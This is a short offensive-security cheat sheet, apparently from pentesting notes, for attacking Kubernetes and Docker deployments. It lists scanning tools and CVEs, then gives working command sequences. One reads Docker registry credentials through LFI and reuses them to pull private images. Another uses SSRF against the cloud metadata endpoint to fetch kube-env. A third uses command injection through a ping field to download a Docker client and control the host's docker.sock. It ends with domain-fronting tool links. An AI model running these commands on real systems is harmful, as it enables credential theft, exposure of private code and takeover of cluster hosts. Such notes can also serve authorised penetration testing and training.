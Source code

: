 ```text
./kube-hunter.py
# kubeaudit
./kubeaudit all

# Known vulns
CVE-2018-1002105
CVE-2019-5736
CVE-2019-9901
```

### Attak Private Registry miconfiguration

```text
# Web application deployed vulnerable to lfi
# Read configuration through LFI
cat /root/.docker/config.json
# Download this file to your host and configure in your system
docker login -u _json_key -p "$(cat config.json)" https://gcr.io
# Pull the private registry image to get the backend source code
docker pull gcr.io/training-automation-stuff/backend-source-code:latest
# Inspect and enumerate the image
docker run --rm -it gcr.io/training-automation-stuff/backend-source-code:latest
# Check for secrets inside container
ls -l /var/run/secrets/kubernetes.io/serviceaccount/
# Check environment vars
printenv
```

### Attack Cluster Metadata with SSRF

```text
# Webapp that check the health of other web applications
# Request to 
curl http://169.254.169.254/computeMetadata/v1/
curl http://169.254.169.254/computeMetadata/v1/instance/attributes/kube-env
```

### Attack escaping pod volume mounts to access node and host

```text
# Webapp makes ping
# add some listing to find docker.sock
ping whatever;ls -l /custom/docker/
# Once found, download docker client
ping whatever;wget https://download.docker.com/linux/static/stable/x86_64/docker-18.09.1.tgz -O /root/docker-18.09.1.tgz
ping whatever;tar -xvzf /root/docker-18.09.1.tgz -C /root/
ping whatever;/root/docker/docker -H unix:///custom/docker/docker.sock ps
ping whatever;/root/docker/docker -H unix:///custom/docker/docker.sock images
```

# CDN Domain Fronting

```text
**Tools**
https://github.com/rvrsh3ll/FindFrontableDomains 
https://github.com/stevecoward/domain-fronting-tools
```


